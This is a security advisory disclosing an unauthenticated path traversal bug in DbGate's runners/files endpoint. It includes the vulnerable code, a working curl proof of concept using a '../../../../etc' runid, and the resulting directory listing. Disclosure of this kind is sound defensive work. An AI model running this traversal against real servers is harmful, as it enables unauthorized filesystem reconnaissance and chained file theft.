

# Path Traversal in `runners/files` via Unvalidated `runid` in DbGate

| Field | Value |
|-------|-------|
| **Project** | [dbgate/dbgate](https://github.com/dbgate/dbgate) |
| **Vulnerability Type** | Path Traversal (CWE-22) |
| **Severity** | High — CVSS 3.1 Base Score: **7.5** |
| **CVSS Vector** | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **Affected Versions** | <= 7.2.5 (verified on 7.2.5, latest release as of 2026-08-14) |
| **Authentication** | None (default anonymous deployment) |

---

## Summary

The `runners/files` endpoint accepts a `runid` parameter without UUID or path validation. The value is concatenated directly into `path.join(rundir(), runid)` and passed to `fs.readdir()`. An attacker can supply a path traversal sequence (e.g., `../../../../etc`) to list the contents of any directory on the server filesystem, revealing file names and sizes.

## Details

In `packages/api/src/controllers/runners.js`:

```javascript
files_meta: true,
async files({ runid }) {
    const directory = path.join(rundir(), runid);  // runid not validated!
    const files = await fs.readdir(directory);
    // ... returns file names, sizes, and absolute paths
}
```

The `runid` parameter is expected to be a UUID (e.g., `a1b2c3d4-...`), but no validation is performed. Node.js `path.join()` normalizes `../` sequences, so `path.join('/root/.dbgate/runners/', '../../../../etc')` resolves to `/etc`.

## PoC

Verified on DbGate 7.2.5 Docker (default anonymous deployment, port 3000):

**Step 1: Obtain anonymous JWT**

```bash
curl -s -X POST http://TARGET:3000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"amoid":"none"}'
```

**Step 2: List `/etc` directory via path traversal**

```bash
curl -s -X POST http://TARGET:3000/runners/files \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"runid":"../../../../etc"}'
```
```
[
  {"name":".pwd.lock","size":0,"path":"/etc/.pwd.lock"},
  {"name":"ODBCDataSources","size":4096,"path":"/etc/ODBCDataSources"},
  {"name":"adduser.conf","size":3040,"path":"/etc/adduser.conf"},
  {"name":"alternatives","size":4096,"path":"/etc/alternatives"},
  {"name":"apt","size":4096,"path":"/etc/apt"},
  {"name":"bash.bashrc","size":1994,"path":"/etc/bash.bashrc"},
  {"name":"bindresvport.blacklist","size":367,"path":"/etc/bindresvport.blacklist"},
  {"name":"ca-certificates","size":4096,"path":"/etc/ca-certificates"},
  {"name":"ca-certificates.conf","size":6422,"path":"/etc/ca-certificates.conf"},
  {"name":"cron.d","size":4096,"path":"/etc/cron.d"},
  {"name":"cron.daily","size":4096,"path":"/etc/cron.daily"},
  {"name":"shadow","size":500,"path":"/etc/shadow"},
  ...
]
```

The response returns full file names, sizes, and absolute paths for every entry in the target directory.



---

## Impact

An unauthenticated attacker can enumerate the contents of any directory on the DbGate server filesystem. This enables:

- **Information Disclosure** — revealing sensitive file names and directory structures (e.g., confirming presence of `/etc/shadow`, `/root/.ssh/`, database files)
- **Reconnaissance** — mapping the filesystem to plan targeted exploitation of the companion file read/write vulnerabilities
- **Blind File System Probing** — distinguishing existing vs. non-existing paths via error differential

While directory listing alone does not reveal file contents, it provides critical reconnaissance for chaining with other DbGate path traversal vulnerabilities (archive link, jsldata `file://`, save-uploaded-file) that can read actual file contents. In the default Docker deployment with anonymous auth, no credentials are required.
